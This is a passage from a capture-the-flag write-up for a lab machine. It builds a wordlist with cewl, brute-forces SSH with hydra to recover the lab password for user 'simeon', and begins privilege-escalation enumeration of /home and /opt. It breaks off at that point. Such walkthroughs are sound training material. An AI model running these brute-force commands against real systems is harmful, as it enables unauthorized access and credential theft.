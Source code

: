 
First, let's generate a wordlist from this:


```
cewl http://10.10.128.188/simeon > simeon_wordlist.txt
```

Since the hint said that the password was `all over the place` it could mean it can be found inside of any of those chapters, we use cewl to generate us a custom wordlist to perform bruteforce, once generated, we can do this:

```
hydra -l simeon -P simeon_wordlist.txt ssh://10.10.128.188 -t 40

[22][ssh] host: 10.10.128.188   login: simeon   password: scelerisque
```

There we go, we got credentials:

```
simeon:scelerisque
```


![](images/Pasted%20image%2020250607152053.png)
Let's begin privilege escalation.

# PRIVILEGE ESCALATION
---


We can make the session more comfortable:

```
export BASH=bash
export TERM=xterm
```


```
[simeon@aratus ~]$ ls -la /home
total 4
drwxr-xr-x.  5 root       root         54 Nov 23  2021 .
dr-xr-xr-x. 17 root       root        224 Mar 25  2022 ..
drwx------.  4 automation automation  127 Dec  2  2021 automation
drwxr-xr-x. 12 simeon     simeon     4096 Jan 10  2022 simeon
drwx------.  5 theodore   theodore    158 Mar 25  2022 theodore
[simeon@aratus ~]$
```

We can find `theodore` and `automation`, the message also said something about `/opt`, let's check it out:

```
[simeon@aratus ~]$ ls -la /opt
total 0
drwxr-xr-x.  4 root       root      36 Nov 22  2021 .
dr-xr-xr-x. 17 root       root     224 Mar 25  2022 ..
drwxr-x---.  4 automation theodore  90 Nov 23  2021 ansible
drwxr-x---.  2 automation theodore  30 Nov 23  2021 scripts
```
